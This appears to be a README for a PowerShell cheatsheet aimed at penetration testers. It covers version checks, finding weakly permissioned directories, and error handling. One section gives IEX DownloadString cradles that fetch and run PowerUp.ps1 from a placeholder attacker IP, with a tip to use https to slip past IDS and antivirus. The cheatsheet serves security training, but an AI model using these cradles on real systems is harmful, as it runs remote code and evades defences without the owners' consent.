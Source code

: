 # Powershell Cheatsheet - For RT / PT
## Information about this repository
Q: What is this cheatsheet supposed to be?

This is going to be my powershell cheatsheet (probably won't be the best but I hope you can take a few things from here)

Q: Who is this made for?

Made for red teamers / penetration testers / blue teamers ( / sysadmins if you really feel like it)

Q: Which versions of powershell will this be supporting?

From powershell v2 onwards (even though I will be putting things that are not supported in powershell v2).

The obligatory `please do not use this cheatsheet for any illegal or malicious activities.`

## Useful commands
### Enumeration

This will be a place for enumeration commands.

#### Checking powershell version different methods:
##### Registry
```Powershell
(Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\PowerShell\3\PowerShellEngine -Name 'PowerShellVersion').PowerShellVersio
```
##### $host Variable
```Powershell
$host.Version
```
##### Get-Host
```Powershell
(Get-Host).Version
```
##### $PSVersionTable Variable
```Powershell
$PSVersionTable.PSVersion
```

### Password / Hidden data

This will be a place for finding passwords or hidden data.

### Read / Writable files

This is going to assist you in detecting faulty permissions.
##### Get all directories with ownership
```Powershell
foreach ($file in (Get-ChildItem -Directory -Path "C:\Users" -Recurse -Force -ErrorAction SilentlyContinue)) { Get-Acl $file.FullName | Where-Object -Property Owner -eq ([System.Security.Principal.WindowsIdentity]::GetCurrent().Name) | Select -ExpandProperty Path | Convert-Path}
```
##### Short explanation: We are looping over each directory and file with Get-ChildItem, then extracting the ACLs from the file / directory and checking if the owner is the current user account with `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name`, the rest is just for prettifying and expanding.


### Execute powershell scripts on the target
##### Download from share
```Powershell
IEX(New-Object System.Net.WebClient).DownloadString('//<attacker_ip>/share/PowerUp.ps1')
```

##### Download from http server 
```Powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker_ip>:8090/PowerUp.ps1')
```
##### Note: For encrypted communication and bypassing any IDS or antiviruses you could use https:// instead. 

### Misc.
#### Error handling 
```Powershell
$ErrorActionPreference = "SilentlyContinue" # / "Stop" / "Inquire" / "Continue" (Default) / "Suspend"
```
#### Test if 32-bit system or 64-bit
```Powershell
[Environment]::Is64BitOperatingSystem
```

## Sources
- https://github.com/specterops/at-ps (Amazing course, very recommended)
- The interwebz
- My personal journey
- https://adamtheautomator.com/check-powershell-version/
- https://www.gngrninja.com/script-ninja/2016/6/5/powershell-getting-started-part-11-error-handling
